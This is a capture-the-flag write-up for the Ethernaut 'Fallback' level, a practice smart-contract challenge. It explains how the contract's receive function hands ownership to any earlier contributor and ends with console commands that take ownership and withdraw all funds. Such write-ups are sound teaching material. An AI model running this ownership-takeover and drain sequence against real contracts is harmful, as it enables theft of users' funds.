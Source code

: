 [Level 1. Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

## In A Nutshell

> Be aware of the lines that change states, and who has access to them.

## Concepts

1. The basis of coding logic.

    1. Find which lines of code you can use to crack the level.
    
    2. In order to access these lines of code, the requirement you’ll need to fulfill.
    
2. The understanding of `msg.value`.

    1. `msg.value`: number of wei sent with the message.

## Level Target

1. Take ownership of the contract.

2. Withdraw all funds from the contract. (Only `owner` can do so)

## BreakDown & Analysis

1. Two ways to take ownership. (we can’t get access to the `constructor` since it’s not included in the contract bytecode)

    1. Contribute more ether than `owner` does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, plus the owner already has 1000 ethers of contribution when the contract is built. (unfair, right?)
    
    2. So the other way to hack the contract is from `receive` function, in order to call `receive`, you’ll need to satisfy two conditions.
    
        * send some eth when calling receive.
        
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds.

    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    
    2. Once you become the owner, it is effortless to withdraw all the funds!

## Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm if you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
await contract.owner() === player // check if we're the owner now
await contract.withdraw() // take all the funds out from the contract!!!
```
